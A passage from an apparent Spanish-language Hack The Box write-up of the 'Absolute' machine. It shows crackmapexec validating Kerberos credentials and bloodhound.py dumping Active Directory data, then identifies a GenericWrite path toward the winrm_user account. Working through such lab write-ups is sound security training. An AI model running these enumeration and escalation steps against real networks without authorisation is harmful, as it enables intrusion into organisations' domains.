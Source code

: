 ![imagen4](/assets/images/Absolute/absolute4.png)

Regresamos a nuestra máquina y probamos las credenciales.

```shell
❯ crackmapexec ldap absolute.htb -u m.lovegod -d absolute.htb -k --kdcHost dc.absolute.htb
SMB         absolute.htb    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
LDAP        absolute.htb    389    DC               [+] absolute.htb\
```
Con esto podemos revisar dumpear información con bloodhound.py para revisar posibles rutas para elevar privilegios.

```shell
❯ sudo python3 ./BloodHound.py-Kerberos/bloodhound.py -u m.lovegod -k -d absolute.htb -dc dc.absolute.htb -ns 10.10.11.181 --dns-tcp --zip -no-pass -c All
INFO: Found AD domain: absolute.htb
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.absolute.htb
INFO: Found 18 users
INFO: Found 55 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.absolute.htb
INFO: Ignoring host dc.absolute.htb since its reported name  does not match
INFO: Done in 00M 10S
INFO: Compressing output into 20230301220041_bloodhound.zip
```
Dentro del bloodhound vemos que el usuario m.lovegod es dueño del grupo Network Audit que tiene generic write sobre el usuario winrm_user.
